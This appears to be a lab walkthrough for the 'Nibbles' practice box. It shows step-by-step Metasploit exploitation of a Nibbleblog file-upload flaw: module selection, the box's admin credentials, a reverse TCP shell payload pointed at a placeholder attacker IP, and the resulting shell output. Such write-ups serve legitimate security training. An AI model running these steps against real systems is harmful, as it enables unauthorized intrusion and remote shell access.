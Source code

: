 # Nibbles - Alternate User Method - Metasploit

## Steps to Exploit Using Metasploit
1. **Search for Exploit:**
   - Command: `search nibbleblog`
   - Module found: `exploit/multi/http/nibbleblog_file_upload`.

2. **Configure the Exploit:**
   - Command: `use exploit/multi/http/nibbleblog_file_upload`.
   - Set the target host and attacker details:
     ```bash
     set rhosts <TARGET_IP>
     set lhost <ATTACKER_IP>
     ```

3. **Check Required Options:**
   - Command: `show options`.
   - Key parameters to set:
     - `USERNAME`: `admin`
     - `PASSWORD`: `nibbles`
     - `TARGETURI`: `nibbleblog`.

4. **Set Payload:**
   - Command: `set payload generic/shell_reverse_tcp`.

5. **Execute Exploit:**
   - Command: `exploit`.
   - Results:
     ```
     [*] Started reverse TCP handler on <ATTACKER_IP>:<PORT> 
     [*] Command shell session opened
     uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
     ```

6. **Post-Exploitation:**
   - Follow the same privilege escalation path as the manual method.

## Key Learnings
1. Metasploit simplifies exploitation but relies on pre-existing modules.
2. Always verify the exploit’s parameters and test its functionality.
3. Practice both manual and automated methods to strengthen skills.

## Recommendations for Practice
- Repeat steps using different tools to achieve the same result.
- Explore alternate privilege escalation methods on the box.
- Document findings and consider blogging walkthroughs for better retention.

## Notes
- Do not use Nibbleblog version 4.0.3 in production due to known vulnerabilities.
- Challenge yourself to discover additional flaws or attack vectors.

